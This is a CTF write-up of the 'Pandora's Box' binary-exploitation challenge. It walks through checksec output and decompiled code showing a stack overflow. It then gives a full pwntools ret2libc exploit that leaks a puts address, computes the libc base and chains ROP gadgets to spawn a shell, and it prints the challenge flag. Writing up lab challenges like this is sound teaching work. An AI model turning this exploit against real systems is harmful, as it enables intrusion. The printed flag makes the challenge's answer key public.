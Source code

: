 # Pandora's Box WriteUp by Om Honrao (@Inv1s1bl3#7047)

## Challenge Description
```
You stumbled upon one of Pandora's mythical boxes. Would you be curious enough to open it and see what's inside, or would you opt to give it to your team for analysis?
```

## Challenge Files
```
- pwn_pandoras_box.zip
    ./glibc
    ./glibc/ld-linux-x86-64.so.2
    ./glibc/libc.so.6
    ./flag.txt
    ./pb
```

## Challenge Solution
Pwn category which was weakest for me but somehow managed to do few pwns. We start with initial analysis like `checksec` and `file` command. We get the following output:

Checksec:
```bash
$ checksec pb
[*] '/home/Inv1s1bl3/ctf/Cyber-Apocalypse-2023-The-Cursed-Mission-Writeups/Pwning/Pandoras_Box/challenge/pb'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'./glibc/'
```
File:
```bash
$ file pb
pb: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./glibc/ld-linux-x86-64.so.2, BuildID[sha1]=d0165634ba8886a0cdf61584d8c941d30ff3820e, for GNU/Linux 3.2.0, not stripped
```
So we don't have canary no need to worry about it NX is enabled so we can't run shellcode directly. Lets check the binary with ghidra once and then will head over to gdb.

Main code is pretty simple:
```c 
undefined8 main(void)

{
  setup();
  cls();
  banner();
  box();
  return 0;
}
```
I can't see anything special here but it does call certain functions like setup, cls, banner and box. I don't think i should explain what setup, cls and banner does. So lets check the box function because that's where we have vulnerability:
```c
void box(void)

{
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  undefined8 local_20;
  long local_10;
  
  local_38 = 0;
  local_30 = 0;
  local_28 = 0;
  local_20 = 0;
  fwrite("This is one of Pandora\'s mythical boxes!\n\nWill you open it or Return it to the Library  for analysis?\n\n1. Open.\n2. Return.\n\n>> "
         ,1,0x7e,stdout);
  local_10 = read_num();
  if (local_10 != 2) {
    fprintf(stdout,"%s\nWHAT HAVE YOU DONE?! WE ARE DOOMED!\n\n",&DAT_004021c7);
                    /* WARNING: Subroutine does not return */
    exit(0x520);
  }
  fwrite("\nInsert location of the library: ",1,0x21,stdout);
  fgets((char *)&local_38,0x100,stdin);
  fwrite("\nWe will deliver the mythical box to the Library for analysis, thank you!\n\n",1,0x4b,
         stdout);
  return;
}
```
So this just declares some variables and then uses `fwrite` to print some text further it uses `read_num` function to read input from user. If the input is not equal to 2 then it will exit the program. So we have to input 2 to continue. After that it uses `fgets` to read input from user and stores it in `local_38` variable. So we have to input some string here. It asks to enter location of library this made me think this should be something related to `Ret2Libc` attack and indeed it was! We can use `ROP` technique to leak out the Libc Base address and with the base we can find the System Address and then we can use `Ret2Libc` to spawn a shell. So lets start with `ROP` first.

I wasn't sure if ASLR is on on the server so each time i ran my code made a leak (I used puts leak). We leak out an address and subtract the offset of it from the starting of libc to get the libc base address.
And then we return back to box() because we don't want program to end right. Further we craft our payload and get the shell!
```python
from pwn import*
#context.log_level       = "DEBUG"
context.arch            = "amd64"

#p = process("./pb")
   
p = remote('165.232.98.69',32149)

elf = context.binary = ELF('./pb', checksec=False)

puts = 0x401030
p.sendlineafter(b">>", b"2")

# Get leak
payload = flat(
    cyclic(0x38),
    0x000000000040142b, #poprdi
    0x403fa0,
    0x401030,
    0x00000000004013a6
    )
p.sendlineafter(b"of the library: ",payload)

p.recvuntil(b"is, thank you!\n\n")
leak = int.from_bytes(p.recv(6),"little") 

#Get libc base
base = leak - 0x80ed0
print("base", hex(base))

p.sendlineafter(b">>", b"2")

#Get shell
payload = flat(
    cyclic(56),
    0x0000000000401016,
    0x000000000040142b,
    base+0x1d8698,
    base+0x0000000000050d60

    )
    
p.sendline(payload)
```

## Flag
```
HTB{r3turn_2_P4nd0r4?!}
```

